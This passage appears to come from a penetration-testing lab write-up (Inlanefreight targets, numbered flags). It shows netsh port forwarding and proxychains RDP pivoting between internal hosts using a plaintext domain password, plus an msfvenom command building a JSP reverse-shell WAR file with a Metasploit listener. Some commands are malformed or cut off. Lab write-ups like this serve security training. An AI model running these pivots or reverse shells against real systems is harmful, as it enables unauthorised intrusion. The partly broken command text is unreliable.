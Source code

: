
*Command:* Port forwarding from Target 3 to Target 2 + Connect with xfreerdp
- netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=172.16.5.35 connectport=3389 connectaddress=172.16.6.25
  - netsh.exe interface portproxy show all
- proxychains4 -q xfreerdp /v:TARGET2:8080 /u:'inlanefreight.local\vfrank' /p:'Imply wet Unmasked!' +clipboar

*Result:* Target2:8080 ==> Target3:3389 = Flag 6


```mermaid
---
title: Port forwarding from T2 to T3
---
flowchart TD
subgraph Z[" "]
direction LR
     C[Target 2= 172.16.5.35]:::blue ---|netsh 8080:3389| D[Target 3:172.16.6.25]:::yellow
    classDef blue stroke:#0ff
end
```

```mermaid
flowchart TD
subgraph Z[" "]
direction LR
    A[Attacker]:::red --> |ssh -D| B[Target 1: 10.129.X.X:172.16.5.15]:::green --> C[Target2= 172.16.5.35]:::blue -->|8080:3389| D[Target 3:172.16.6.25]:::yellow
    C[Target2= 172.16.5.35]:::blue --> E[Target 3:172.16.6.25]:::yellow
    A[Attacker]:::red ---|proxychains xfreerdp| C[Target2= 172.16.5.35]
    classDef red stroke:#f00
    classDef green stroke:#0f0
    classDef blue stroke:#0ff
    classDef yellow stroke:#ffff00
    linkStyle 4,2 stroke: red
end
```

---

*Command:* No more pivot, just checking what is around this pc

*Result:* Flag 7

## Shells & Payloads 

*Command:* Login with username:password found on a .txt file in the desktop

*Result:* Server Info = Question 1

---

*Command:* Upload .war file and create listener
- msfvenom -p java/jsp_shell_reverse_tcp LHOST 1$INTERNAL_IP LPORT=4444 -f war -o shell.war
- msfconsole
  - use exploit/multi/handler
  - use payload java/java_shell_reverse_tcp
